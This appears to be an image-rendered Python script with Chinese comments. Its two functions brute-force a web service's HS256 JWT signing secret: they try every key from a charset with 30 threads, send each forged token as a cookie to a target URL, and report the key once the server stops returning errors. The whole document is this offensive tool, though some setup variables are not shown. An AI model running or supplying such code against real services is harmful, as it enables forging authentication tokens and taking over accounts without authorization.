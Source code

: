 ```python
def try_key(secret_key):
    '''
    函数：try_key
    参数：secret_key (str) - 当前尝试的密钥
    返回：若成功则返回该密钥，否则 None
    '''
    global found
    if found:
        return None  # 如果已找到密钥，则其他线程无需再尝试

    try:
        # jwt.encode(payload, key, algorithm): 构造一个签名的JWT
        token = jwt.encode(payload, secret_key, algorithm="HS256")

        cookies = base_cookies.copy()
        cookies["JWT"] = token  # 把生成的JWT加进 cookie 中

        # 发送请求，尝试该 JWT 是否有效
        response = requests.get(url, headers=headers, cookies=cookies, timeout=3)

        print(f"[*] Trying key: {secret_key} => Status {response.status_code}")

        # 如果返回状态码不为500，则认为该 JWT 被接受
        if response.status_code != 500:
            found = True
            print(f"[+] FOUND KEY: {secret_key}")
            print(f"[+] JWT: {token}")
            return secret_key
    except Exception as e:
        print(f"[-] Error with key {secret_key}: {e}")
    return None

def brute_force_multithreaded():
    '''
        函数：brute_force_multithreaded
        功能：使用多线程线程池对指定字符集内不同长度的可能密钥进行爆破， 一旦找到有效密钥则终止爆破过程。
    '''
    # 创建线程池，最多30个并发线程
    with concurrent.futures.ThreadPoolExecutor(max_workers=30) as executor:
        for length in range(1, MAX_LEN + 1):
            print(f"[*] Brute-forcing keys of length {length}...")

            tasks = []  # 用于收集所有提交的任务
            for key_tuple in itertools.product(charset, repeat=length):
                key = ''.join(key_tuple)
                # executor.submit(func, arg): 向线程池提交一个任务
                tasks.append(executor.submit(try_key, key))

            # 遍历线程执行结果
            for future in concurrent.futures.as_completed(tasks):
                result = future.result()
                if result:
                    # 找到密钥，立刻关闭线程池并取消未完成任务
                    executor.shutdown(cancel_futures=True)
                    return

    print("[-] No weak key found.")

# 主函数入口
if __name__ == "__main__":
    brute_force_multithreaded()

```